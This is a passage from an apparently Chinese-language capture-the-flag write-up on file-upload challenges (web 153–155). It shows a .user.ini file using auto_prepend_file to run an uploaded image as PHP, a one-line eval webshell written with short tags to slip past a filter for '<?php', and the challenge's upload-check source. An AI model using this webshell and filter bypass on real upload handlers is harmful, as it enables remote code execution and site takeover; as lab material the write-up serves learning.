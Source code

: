 ![ini](https://the0n3.top/medias/show-upload/5.png)

写一个配置项即可
```ini
# 在所有页面加载前，自动包含指定文件，文件内的php代码会正常执行
auto_prepend_file=1.png
# 在文件加载后包含
auto_append_file=1.png
```

提示成功上传到/upload/目录下，到upload目录下成功解析为php木马

![upload](https://the0n3.top/medias/show-upload/6.png)

## web 154 文件内容验证

正常上传一个图片马，提示内容不合规

![upload](https://the0n3.top/medias/show-upload/7.png)

(稍加思索.png)，大概是文件内容开头的<?php被检测到了，稍加修改

```php
<?=highlight_file(__FILE__);eval($_GET[1]);?>
```

上传成功。那么再试试上一题的.user.ini还能不能用，上传.user.png，bp修改为.user.ini，成功上传并解析php代码

![=](https://the0n3.top/medias/show-upload/8.png)

## web 155 内容检测

正常上传图片马，提示文件类型不对？？用上题的方法可以正常做出来。

好奇。用上题的方法挂马后查看一下这题的源码，真的还是检测文件内容

```php
if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
```

